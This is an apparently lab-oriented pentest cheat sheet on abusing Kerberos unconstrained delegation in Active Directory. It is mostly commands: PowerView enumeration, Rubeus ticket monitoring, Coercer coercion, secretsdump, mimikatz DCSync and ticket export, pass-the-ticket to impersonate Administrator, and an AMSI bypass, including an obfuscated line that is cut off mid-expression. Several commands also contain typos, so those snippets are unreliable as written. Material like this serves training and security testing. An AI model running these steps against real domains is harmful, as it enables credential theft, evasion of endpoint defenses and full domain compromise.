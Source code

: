 # Kerberos Unconstrained Delegation

## **Kerberos Unconstrained Delegation**

> General/Basic or Unconstrained Delegation which allows the first hop server (web server in our example) to request access to any service on any computer in the domain.

**Required**

1. Define Unconstrained Delegation Machines
2. we need to user who has Access to the machine

Essentially this looks like so: **`User`** --- authenticates to ---> **`IIS server`** ---> authenticates on behalf of the user ---> **`DB server`**

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Tools

{% embed url="https://github.com/dirkjanm/krbrelayx.git" %}

define Unconstrained Machines

{% code overflow="wrap" %}
```powershell
#using PowerView
Get-NetComputer -Unconstrained
Get-DomainComputer -UnConstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
Get-DomainComputer -unconstrained | select samaccountname
# using Import-Module ActiveDirectory 
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
Get-ADComputer "IIS" -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
<mark style="color:orange;">**Hint**</mark>**: discover users that who you have WriteDACL permission on there or do Enumeration to get user**
{% endhint %}

Rubeus

{% embed url="https://github.com/r3motecontrol/Ghostpack-CompiledBinaries" %}

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe ptt /tikcet: base64.exe  monitor /monitornterval:10 /targetuser$ /nowarp

.\Rubeus.exe ptt /tikcet: base64 

.\rubeus.exe asktgt /user:abdo /domain:hacktor.local /ntlm:Hash /outfile:FileName.tgt
#OR
cat b64.txt|base64 -d > ticket.kirbi 
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (27).png" alt=""><figcaption><p>TGT ticket for the websvc account.</p></figcaption></figure>

After obtaining the TGT tickets from the domain controller, we can now request service tickets for the allowed services, i.e., **CIFS** and **TIME**, or alternate services like **LDAP** or **WMI**.

### Coercer

{% code overflow="wrap" %}
```bash
coerce -u arya.stark -d north.sevenkingdoms.local -p 'Needle' -t kingslanding.sevenkingdoms.local -l winterfell --always-continue

```
{% endcode %}

{% code overflow="wrap" %}
```bash
sudo impacket-secretsdump -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```
{% endcode %}

mimikatz

{% code overflow="wrap" %}
```powershell
mimikatz.exe "privilege::debug" "kerberos::ptt PDC.kirbi" "lsadump::dcsync /domain:hacktor.local /user:Administrator" "exit"
#Once the ticket is injected, run DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
{% endcode %}

now enumerating the computers which have unconstrained delegation enabl



```markdown
.\powerview.ps1
Get-NetComputer -Unconstrained
```

* Example output: We find the computer `WIN-Q4788GPE9L7` with unconstrained delegation enabled.



#### Step 2: Find Local Admin Access

```powershell
Find-LocalAdminAccess
```

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

* Output: Our user has local admin access to the computer with unconstrained delegation.

#### Step 3: Enable PowerShell Remoting

```powershell
Enable-PSRemoting
```

#### Step 4: Create and Use a PowerShell Session

```powershell
$sess = New-PSSession -ComputerName WIN-Q4788GPE9L7
Invoke-Command -FilePath ..\..\rem01x.crtp\Desktop\tools\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession -Session $sess
```

* Bypass AMSI:

```powershell
$amsiBypass = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic,Static')
$amsiBypass.SetValue($null, $true)


S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U')
```

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

#### Step 5: Dump Secrets and List Tickets

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

Step 6: Export Tickets

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

* Example output: Administrator `.kirbi` file.

#### Step 7: Monitor Actions on the Machine

```powershell
Invoke-UserHunter -ComputerName WIN-Q4788GPE9L7 -UserAdminCount -Delay 5 -Verbose
```

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

* Output: Administrator account detected.

#### Step 8: Pass the Ticket to Memory and Impersonate the User

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\Administrator\kerb\[0;120dde]-2-0-60a10000-Administrator@krbtgt-CRTP.LOCAL.kirbi"'
```

<figure><img src="../../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

* Result: We are now the administrator on the machine.

### Deep Dive into Unconstrained Delegation

#### Process Overview

1. Vegeta wants to access the `server web01` to list folders.
2. The `web01` process impersonates Vegeta and creates a new thread with Vegeta's credentials.
3. The server accesses the intended folder with the impersonated thread.

#### Configuration

To list computers with unconstrained delegation:

```powershell
Get-NetComputer -Unconstrained | select cn,useraccountcontrol
```

#### Network Traffic (Wireshark Capture)

1. Client requests a TGT.
2. Domain controller responds with the TGT.
3. Client requests a service ticket (TGS) for the web application.
4. Domain controller responds with the TGS.
5. Client requests another TGT to delegate to the web service.
6. Domain controller responds with a copy of the user TGT.
7. The application request goes to the web server.
8. The web service requests a TGS for the SQL server using the client's TGT.
9. Domain controller responds with the TGS.
10. Access is granted and the database server is successfully accessed.
11. Application replies.

### Abusing Unconstrained Delegation

Continue monitoring and exploitation using appropriate PowerShell commands and tools.

## 📚**$\_References** <a href="#id-6572" id="id-6572"></a>

{% embed url="https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/?source=post_page-----4a0eddc5bb13--------------------------------" %}

